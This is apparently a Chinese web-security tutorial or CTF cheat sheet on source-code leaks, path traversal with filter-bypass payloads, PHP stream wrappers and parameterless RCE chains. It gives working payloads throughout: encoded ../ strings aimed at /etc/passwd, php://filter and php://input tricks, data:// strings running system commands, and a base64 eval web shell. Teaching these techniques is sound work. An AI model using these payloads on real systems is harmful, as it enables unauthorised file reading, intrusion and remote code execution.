管理员将网站源代码备份在Web目录下，攻击者通过猜解文件路径，下载备份文件，导致源代码泄露。

常见的备份文件后缀：

```
.rar

.zip

.7z

.tar.gz

.bak

.txt

.old

.temp
```

### 漏洞利用工具

#### [御剑](https://github.com/foryujian/yjdirscan)

#### [dirsearch](https://github.com/maurosoria/dirsearch)

***

## WEB-INF/web.xml 泄露

### 介绍

WEB-INF是Java的WEB应用的安全目录。如果想在页面中直接访问其中的文件，必须通过web.xml文件对要访问的文件进行相应映射才能访问。
WEB-INF主要包含一下文件或目录：

```
/WEB-INF/web.xml：
Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则

/WEB-INF/classes/：
含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中

/WEB-INF/lib/：
存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件

/WEB-INF/src/：
源码目录，按照包名结构放置各个java文件。

/WEB-INF/database.properties：
数据库配置文件
```

WEB-INF/web.xml泄露的起因就是我们在使用网络架构的时候，对静态资源的目录或文件的映射配置不当，可能会引发一些的安全问题，导致web.xml等文件能够被读取。

### 漏洞利用

通过找到 web.xml 文件，推断 class 文件的路径，最后直接 class 文件，再通过反编译 class 文件，得到网站源码。

***

## vim文件 泄露

### 介绍

vim程序在编辑文件时产生的临时文件，它是隐藏文件，如果正常退出临时文件自动删除，如果意外退出就会保留，文件名为 `.filename.swp`。

第一次意外退出会产生`.filename.swp`，第二次会产生`.filename.swo`，第三次会产生`.filename.swn`、

### 漏洞利用

可通过直接访问临时文件，下载回来后删掉末尾的.sw*后缀即可，获得源码文件。

***

# 1-信息收集/2-文件读取/4-文件读取漏洞/1-路径穿梭

路径穿梭（也称为目录遍历）是指在访问储存在web根目录文件夹之外的文件和目录。通过操纵带有“点-斜线（../）”序列及其变化的文件或使用绝对文件路径来引用文件的变量，可以访问存储在文件系统上的任意文件和目录，包括应用程序源代码、配置和关键系统文件。

## [原理](https://blog.csdn.net/angry_program/category_9990662.html)：

如果在网页上要显示一个物品的图像，部分会用通过HTML加载，例如：

```html

```

使用filename参数来读取图像文件，图片的位置可能会在 /var/www/images/ 中，所以真实的路径是 /var/www/images/freedom.png 

在linux和windows操作系统中，../ 都是返回上一级路径的语法；

这就导致了我们可以读取服务器上的任意文件：

```url
https://www.*****.com/loadImage?filename=../../../etc/passwd
```

filename的参数值与真实路径组合起来就是：

```
/var/www/images/../../../etc/passwd
```

其等价于：

```
/etc/passwd
```

## 攻击技巧：

### 相对路径遍历：

例如上文讲的例子

### 绝对路径遍历：

网站有时候会采取目录遍历的防御措施，如过滤 ../ 等关键字，然后简单的过滤通常可以被绕过。有时候可以直接采用绝对路径，无须../返回上一级目录遍历：

例如，上文中的

```
?filename=../../../etc/passwd
```

因为../被过滤了，所以我们采用绝对路径来进行访问

```
?filename=/etc/passwd
```


### 双写绕过：

有时候的防御措施时将../转化为空，我们就可以采用双写绕过

如果在....//中，将../替换为空，最后的路径就变成：

..**../**/ => ../

所以我们要构造为

```
?filename=....//....//....//etc/passwd
```

### 编码绕过

#### URL编码绕过

采用URL编码来绕过服务器对 . 或者 / 的检测

```
.  => %2e

/  => %2f

%  => %25 (双重URL编码)
```

```
?filename=../../../etc/passwd
```

以下所有格式都是对上面的代码进行编写

例如单独对/进行编码构造为

```
?filename=..%2f..%2f..%2fetc/passwd
```

单独对.进行编码

```
?filename=%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

对./一起进行编码

```bash
?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

双重URL编码，即对%进行编码

```bash
?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

#### 16 位 Unicode 编码

```
. = %u002e
/ = %u2215
```

### 非常规组合

“.”、“/”、“”,三个符号随意的组合多次，进行绕过，如必要还可以添加其他符号进行尝试。下面是示例。也就是有点进行Fuzz的意思

```
....//....//etc/passwd
..///....//etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
..././
...\.\
..;/
```


### 绝对路径配合../

有些网站在获取filename图片文件的时候，会首先判断是否以一个固定的路径开头：

那么就可以配合../来返回上一级遍历任意文件：

```bash
?filename=/var/www/images/../../../etc/passwd
```

### 截断文件后缀

某些web对filename的文件类型作了限制，只有当后缀为特定格式时才解析

这时候就可以利用 %00 来截断：（在PHP 5.3.4中被修复）

比如要求后缀为jpg

```bash
?filename=../../../etc/passwd%00.jpg
```

也可以在末尾添加？

### 目录限定绕过

有些Web应用程序是通过限定目录权限来分离的。可以使用一些特殊的符号`~`来绕过。比如提交这样的`xxx.php?filename=~/../boot`。就可以直接跳转到硬盘目录下。

***

# 1-信息收集/2-文件读取/4-文件读取漏洞/2-PHP文件读取

## 相关函数

**此处只做简单介绍，具体介绍将归纳到命令执行**

### 命令执行函数

```
system() 
输出并返回最后一行shell结果。

exec() 
不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。

shell_exec()或` `
将字符串作为OS命令执行，需要输出执行结果，且输出全部的内容。

passthru() 
只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。

pcntl_exec()

popen()/proc_open() 
该函数也可以将字符串当作OS命令来执行，但是该函数返回的是文件指针而非命令执行结果。该函数有两个参数。
```

### 输出函数

```
cat 
由第一行开始显示内容，并将所有内容输出

tac
从最后一行倒序显示内容，并将所有内容输出

nl      
类似于cat -n，显示时输出行号

more    
根据窗口大小，一页一页的现实文件内容

less    
和more类似，但其优点可以往前翻页，而且进行可以搜索字符

head    
只显示头几行

tail    
只显示最后几行

sort    
文本内容排列

uniq    
可检查文本文件中重复出现的行列。

od
（Octal Dump）命令用于将指定文件内容以八进制、十进制、十六进制、浮点格式或ASCII编码字符方式显示，通常用于显示或查看文件中不能直接显示在终端的字符。od命令系统默认的显示方式是八进制。

strings: 
在对象文件或二进制文件中查找可打印的字符串, 在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings

paste	
把每个文件以列对列的方式，一列列地加以合并

grep	 
grep { flag.php打印有”{“的一行

sed		
一种编辑器，可以用sed -f flag.php读取flag
```

### 文件读取函数

```
readfile()
> readfile($filename)
读取文件

highlight_file()
> highlight_file($filename)
读文件

show_source()
> show_source($filename)
读文件

base64_decode()		
base64解码

strrev()			
反转字符串

print_r(php_strip_whitespace($filename));

print_r(file_get_contents($filename));

print_r(file($filename));

fread(fopen($filename,"r"), $size);

include（）

fpassthru(fopen($filename, "r")); 
// 从当前位置一直读取到 EOF

print_r(fgetss(fopen($filename, "r")));
// 从文件指针中读取一行并过滤掉 HTML 标记

```

### 目录扫描函数

```
scandir()
扫目录用的，返回数组

getcwd()
返回当前目录

glob()
包含匹配指定模式的文件名或目录的数组

dir()
返回 Directory 类的实例

opendir
打开目录句柄
```

***

## 伪协议

PHP支持的伪协议

```
php://     — 访问各个输入/输出流（I/O streams）
file://    — 访问本地文件系统
http://    — 访问 HTTP(s) 网址
ftp://     — 访问 FTP(s) URLs
zlib://    — 压缩流
data://    — 数据（RFC 2397）
glob://    — 查找匹配的文件路径模式
phar://    — PHP 归档
ssh2://    — Secure Shell 2
rar://     — RAR
ogg://     — 音频流
expect://  — 处理交互式的流
```

### php://filter

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

简单通俗的说，这是一个中间件，在读入或写入数据的时候对数据进行处理后输出的一个过程。

php://filter可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，让其不执行。从而导致 任意文件读取。

#### 协议参数

```
resource=<要过滤的数据流>	
这个参数是必须的。它指定了你要筛选过滤的数据流。

read=<读链的筛选列表>	
该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。

write=<写链的筛选列表>	
该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。

<；两个链的筛选列表>	
任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```

#### 常用伪协议

```
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php
```

#### 过滤器：

`php://filter/read=convert.base64-encode/resource=index.php`

利用filter协议读文件，将index.php通过base64编码后进行输出。这样做的好处就是如果不进行编码，文件包含后就不会有输出结果，而是当做php文件执行了，而通过编码后则可以读取文件源码。

而使用的convert.base64-encode，就是一种过滤器

##### 字符串过滤器

该类通常以string开头，对每个字符都进行同样方式的处理。

###### string.rot13

一种字符处理方式，字符右移十三位。

###### string.toupper

将所有字符转换为大写。

###### string.tolower

将所有字符转换为小写。

###### string.strip_tags

这个过滤器就比较有意思，用来处理掉读入的所有标签，例如XML的等等。在绕过死亡exit大有用处。

##### 转换过滤器

对数据流进行编码，通常用来读取文件源码。

###### convert.base64-encode & convert.base64-decode

base64加密解密

###### convert.quoted-printable-encode & convert.quoted-printable-decode

可以翻译为可打印字符引用编码，使用可以打印的ASCII编码的字符表示各种编码形式下的字符。

##### 压缩过滤器

注意，这里的压缩过滤器指的并不是在数据流传入的时候对整个数据进行写入文件后压缩文件，也不代表可以压缩或者解压数据流。压缩过滤器不产生命令行工具如 gzip的头和尾信息。只是压缩和解压数据流中的有效载荷部分。

用到的两个相关过滤器：zlib.deflate（压缩）和 zlib.inflate（解压）。zilb是比较主流的用法，至于bzip2.compress和 bzip2.decompress工作的方式与 zlib 过滤器大致相同。

##### 加密过滤器

mcrypt.*和 mdecrypt.*使用 libmcrypt 提供了对称的加密和解密。

***

### data://

数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。

`data:text/plain,<?=system("tac fla*");?>`

#### data伪协议的格式

`data://text/plain;base64,`

data:资源类型(MIME类型);编码,内容

举例：

```
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=
```

#### 类型扩展

```
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

***

### file://

用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响
file://协议主要用于访问文件(绝对路径、相对路径以及网络路径)
比如：`http://www.xx.com?file=file:///etc/passsword`

***

### php://

在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用
php://作用为访问输入输出流

***

### php://input

php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。

例如：
`http://127.0.0.1/cmd.php?cmd=php://input`
POST数据：`<?php phpinfo()?>`
注意：
当`enctype="multipart/form-data"`的时候` php://input` 是无效的

遇到`file_get_contents()`要想到用`php://input`绕过。

***

### zip://

zip:// 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。

zip://中只能传入绝对路径。
要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
只需要是zip的压缩包即可，后缀名可以任意更改。
相同的类型的还有zlib://和bzip2://

    zip://中只能传入绝对路径。
    要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
    只需要是zip的压缩包即可，后缀名可以任意更改。
    相同的类型的还有zlib://和bzip2://



***

## 无参数RCE

### 相关函数介绍

```
scandir() 
将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称

getcwd() 
取得当前工作目录

hightlight_file()、show_source()、readfile()
读取文件内容

dirname()
函数返回路径中的目录部分

eval()、assert()
命令执行

print_r(scandir(‘.’)); 
查看当前目录下的所有文件名

localeconv() 
函数返回一包含本地数字及货币格式信息的数组。

current() 
函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名

chdir() 
函数改变当前的目录。

strrev()
用于反转给定字符串

array_reverse() 
以相反的元素顺序返回数组

array_flip()
交换数组中的键和值，成功时返回交换后的数组

array_rand() 
从数组中随机取出一个或多个单元
```

### 数组移动操作

```
each() 
返回数组中当前的键/值对并将数组指针向前移动一步

end() 
将数组的内部指针指向最后一个单元

next() 
将数组中的内部指针向前移动一位

prev() 
将数组中的内部指针倒回一位

reset()
将内部指针指向数组中的第一个元素，并输出
```

### 常用RCE

```
highlight_file(array_rand(array_flip(scandir(getcwd())))); //查看和读取当前目录文件

print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件

print_r(scandir(next(scandir(getcwd()))));  //查看上一级目录的文件

show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd()))))))); //读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));//读取上级目录文件

show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));//读取上级目录文件
```

***
